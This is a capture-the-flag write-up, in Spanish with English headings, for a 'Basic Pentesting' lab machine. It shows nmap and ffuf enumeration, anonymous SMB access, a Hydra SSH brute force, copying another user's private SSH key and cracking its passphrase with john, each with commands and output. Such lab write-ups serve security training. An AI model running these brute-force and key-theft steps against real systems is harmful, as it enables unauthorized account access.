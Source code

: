 # Basic Pentesting — Writeup

## TL;DR

Se identificaron servicios HTTP, SSH y Samba. Se encontró un share anónimo con `staff.txt` que sugiere el usuario `jan`. Se obtuvo acceso SSH a `jan` por fuerza bruta (wordlist `rockyou`), desde `jan` se recuperó la clave privada de `kay` y se crackeó su passphrase con `john`, permitiendo acceso final como `kay`.

---

## Enumeration (nmap)

**Command**

```bash
nmap -sV --open $IP
```

**Comment:** `-sV` detecta versiones de servicios. 

**Result**
```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
**Summary**

* 22/tcp open  ssh (OpenSSH 8.2p1)
* 80/tcp open  http (Apache/2.4.41)
* 139/445/tcp open Samba (smbd)

---

## Web Enumeration (ffuf)

**Command**

```bash
ffuf -u http://$IP/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 300 -s -c
```

**Comment:** `-t 300` define la cantidad de hilos; `-s` silencia headers extra; `-c` activa color en resultado.

**Result**
```bash
# directory-list-2.3-small.txt
#
# Attribution-Share Alike 3.0 License. To view a copy of this
#
# This work is licensed under the Creative Commons
# on at least 3 different hosts
development
```
**Relevant result**

* `/development`

---

## Smb — anonymous share

**Enumeration**

```bash
smbclient -L //$IP
```

**Result**
```bash
	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.15.13-Ubuntu)
```
**Relevant Result**
* Share accesible: `Anonymous (Disk)`

**Connection**

```bash
smbclient //$IP/Anonymous
smb: \> ls
smb: \> get staff.txt
```
<details>
  <summary><i>staff.txt</i></summary>
  
```bash
  Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

</details>

**Comment:** Indicio de usuario `jan`. Revisar si el share expone archivos sensibles o rutas del filesystem.

---

## Brute Force SSH (user: jan)

**Command**

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -t 4 ssh://$IP
```

**Comment:** `-l` especifica login; `-P` wordlist; `-t 4` tareas paralelas. Usar siempre con autorización.

**Result**
```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-27 15:49:48
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://$IP/
[22][ssh] host: $IP   login: jan   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-27 16:04:48
```

---

## Foothold

**Operaciones realizadas**

```bash
ssh jan@$IP
# introducir clave de usuario
jan@$IP cat /home/kay/.ssh/id_rsa
scp jan@$IP:/home/kay/.ssh/id_rsa ./
```

**Comment:** La clave privada `id_rsa` estaba accesible desde la cuenta `jan`.

---

## Lateral Movement

**Cracking passphrase**

```bash
ssh2john id_rsa > rsa_john.txt
john rsa_john.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Result**
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PASSWORD_REDACTED          (id_rsa)     
1g 0:00:00:00 DONE (2025-09-27 15:42) 10.00g/s 827360p/s 827360c/s 827360C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
**Login Kay**

```bash
ssh -i id_rsa kay@$IP
# introducir passphrase para la clave
cat pass.bak
```
